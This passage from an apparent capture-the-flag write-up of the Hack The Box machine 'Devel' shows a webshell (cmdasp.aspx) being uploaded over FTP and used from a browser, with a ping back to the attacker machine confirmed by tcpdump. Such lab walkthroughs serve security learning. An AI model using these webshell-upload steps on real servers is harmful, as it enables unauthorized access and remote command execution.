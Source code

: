 * In the local terminal window, `cp /usr/share/webshells/aspx/cmdasp.aspx .`
* In FTP service terminal window, `put cmdasp.aspx`

Worked! Let's access the webshell by going to 10.10.10.5/cmdasp.aspx

<img src="/images/blog/devel/dir.png" alt="dir command">

* `dir` = displays information about the files and directories.

The last part of enumeration is to confirm that both the target and our local machine can talk to each other. To test this, we can run a ping test.

In the local terminal window, `tcpdump -i tun0 -n icmp`

	listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes                                                                                    
	16:59:24.588581 IP 10.10.10.5 > 10.10.14.31: ICMP echo request, id 1, seq 5, length 40                                                                  
	16:59:24.588659 IP 10.10.14.31 > 10.10.10.5: ICMP echo reply, id 1, seq 5, length 40                                                                    
	16:59:25.613355 IP 10.10.10.5 > 10.10.14.31: ICMP echo request, id 1, seq 6, length 40                                                                  
	16:59:25.613456 IP 10.10.14.31 > 10.10.10.5: ICMP echo reply, id 1, seq 6, length 40                                                                    
	16:59:26.637219 IP 10.10.10.5 > 10.10.14.31: ICMP echo request, id 1, seq 7, length 40                                                                  

* `icmp` = print only icmp packets.
* `-n` = don't covert addresses (host names, port numbers) to names.

In the web browser, `ping 10.10.14.31`
